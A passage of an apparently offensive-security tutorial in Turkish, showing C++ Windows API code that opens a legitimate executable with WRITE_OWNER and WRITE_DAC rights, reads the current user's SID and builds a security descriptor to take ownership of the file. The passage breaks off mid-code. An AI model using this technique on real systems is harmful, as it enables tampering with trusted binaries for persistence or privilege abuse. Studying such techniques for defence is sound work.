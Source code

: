 Görebileceğiniz gibi, bu fonksiyon belirli bir yetkiyi mevcut işlem için etkinleştirmek için kullanılır.

Daha sonra, gerekli erişim izinleri (`WRITE_OWNER` ve `WRITE_DAC`) ile meşru ikili dosyayı açıyoruz:    

```cpp
HANDLE hFile = CreateFileA((LPCSTR)legitApp, WRITE_OWNER | WRITE_DAC, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

Ardından, belirteç bilgilerini alıyoruz:       

```cpp
// obtain the SID for the current user
HANDLE hToken;
DWORD dwSize = 0;
PTOKEN_USER pTokenUser = NULL;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;
}
printf("open process token: ok\n");

// get the required size for the token information
GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("allocate memory token info: ok\n");

// get the token information
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("get token info: ok\n");
```

Sonraki adımda, meşru ikili dosyanın sahipliğini geçerli kullanıcı olarak değiştirmemiz gerekiyor:      

```cpp
// initialize a security descriptor
SECURITY_DESCRIPTOR sd;
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("init security descriptor: ok\n");

// set the owner in the security descriptor
if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
```